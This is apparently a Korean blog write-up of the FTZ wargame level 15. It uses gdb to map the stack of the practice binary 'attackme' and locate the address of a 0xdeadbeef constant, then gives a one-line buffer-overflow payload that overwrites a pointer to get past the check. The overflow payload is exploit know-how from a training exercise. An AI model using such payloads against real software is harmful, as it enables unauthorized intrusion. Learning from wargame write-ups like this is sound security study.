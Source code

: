 ```yaml
---
title:  "[FTZ] level 15"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-19 17:27:30

---
```


# level 15

**level15 / guess what**

힌트

![image](https://user-images.githubusercontent.com/69203345/146667900-4501e4dc-251c-4e21-b16c-98e4d14d9a70.png)

이번에는 check가 포인터이다  
check 의 값 = 0xdeadbeef가 존재하는 곳의 주소

/tmp로 복사해서 gdb분석

![image](https://user-images.githubusercontent.com/69203345/146668091-5d422f2a-65d2-4251-89e9-8004675cb5b7.png)

0x080484b0 <main+32>: cmp DWORD PTR [eax], 0xdeadbeef 비교

낮은주소

buf[20] [ebp-56]  
dummy[20]  
check[4] [ebp-16]  
crap[4]+dummy[8]   
sfp[4]  
ret[4]

높은주소

>x/20x main  
main 부터 x(16진수)로 20개 를 보여달라

![image](https://user-images.githubusercontent.com/69203345/146668450-6f375544-2f31-4fe1-acbd-941f135a6c51.png)

0xdeadbeef의 주소가 0x80484b2 임을 확인  

페이로드 
> (python -c 'print "a"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146668507-8205ab79-b807-4297-ad8a-2455dac2e52e.png)